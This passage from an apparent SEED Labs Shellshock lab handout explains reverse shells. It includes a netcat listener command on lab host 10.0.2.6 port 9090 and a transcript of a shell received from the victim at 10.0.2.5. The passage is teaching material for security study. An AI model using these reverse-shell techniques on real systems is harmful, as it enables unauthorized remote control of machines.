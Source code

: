 The Shellshock vulnerability allows attacks to run arbitrary commands on the target machine. In real attacks,
instead of hard-coding the command in the attack, attackers often choose to run a shell command, so they
can use this shell to run other commands, for as long as the shell program is alive. To achieve this goal,
attackers need to run a reverse shell.
Reverse shell is a shell process started on a machine, with its input and output being controlled by
somebody from a remote computer. Basically, the shell runs on the victim’s machine, but it takes input
from the attacker machine and also prints its output on the attacker’s machine. Reverse shell gives attackers
a convenient way to run commands on a compromised machine. Detailed explanation of how to create a
reverse shell can be found in the SEED book. We also summarize the explanation in Section 4. In this task,
you need to demonstrate how you can get a reverse shell from the victim using the Shellshock attack.

### 3.5 Task 5: Using the Patched Bash

Now, let us use a bash program that has already been patched. The program /bin/bash is a patched
version. Please replace the first line of the CGI programs with this program. Redo Task 3 and describe your
observations.

## 4 Guidelines: Creating Reverse Shell

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connec-
tion, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes

from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.
A commonly used program by attackers is _netcat_, which, if running with the _"-l"_ option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out
whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment, _netcat_(ncfor short) is used to listen for a connection on port _9090_ (let us focus
only on the first line).
```
Attacker(10.0.2.6):$ nc -nv -l 9090  <- **Waiting for reverse shell**
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$  <- **Reverse shell from 10.0.2.5.**
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet **10.0.2.5** netmask 255.255.255.0 broadcast 10.0.2.
...
```
The above _nc_ command will block, waiting for a connection. We now directly run the following bash
program on the Server machine _(10.0.2.5)_ to emulate what attackers would run after compromising the
server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating